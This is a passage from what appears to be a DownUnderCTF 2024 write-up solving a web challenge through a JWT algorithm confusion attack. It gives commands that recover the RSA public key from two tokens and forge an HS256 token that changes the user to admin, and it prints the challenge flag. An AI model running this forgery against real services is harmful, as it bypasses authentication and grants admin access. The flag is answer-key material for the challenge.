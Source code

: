 The `signAlg` was used in the login function.

```js
const jwt_token = jwt.sign(payload, privateKey, signAlg)
```

I'm not an expert with JWT, but it seems suspicious that two algorithms are used to verify the JWT. While searching, I found [this](https://github.com/advisories/GHSA-4xw9-cx39-r355) GitHub Advisory mentioning that the `json-web-token` library versions `<= 3.1.1` are vulnerable to a **JWT algorithm confusion attack**. Inside the `package.json` challenge file, it stated that the version of `jsonwebtoken` was `^4.0.0`. But looking in [here](https://security.snyk.io/vuln/SNYK-JS-JSONWEBTOKEN-6069816) it was mentioned that `There is no fixed version` ? Let's just try the exploit!

**Public key recovery**

First, retrieve two (2) different JWT tokens and utilize [jwt_forgery.py](https://github.com/silentsignal/rsa_sign2n/blob/release/standalone/jwt_forgery.py) to generate a few public keys.

```cs
python3 jwt_forgery.py "<JWT_TOKEN_1>" "<JWT_TOKEN_2>"
```

**Algorithm confusion**

Use each of the generated `.pem` files and change the JWT to the **HS256 algorithm**. Ensure to change the `user` to an admin.

```cs
python3 jwt_tool.py "<token>" -I -pc user -pv admin -X k -pk publickey.pem
```

![alt text](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/15_downunderctf_2024/image-24.png)

Flag: `DUCTF{c0nfus!ng_0nE_bUG_@t_a_tIme}`

## Web : co2v2
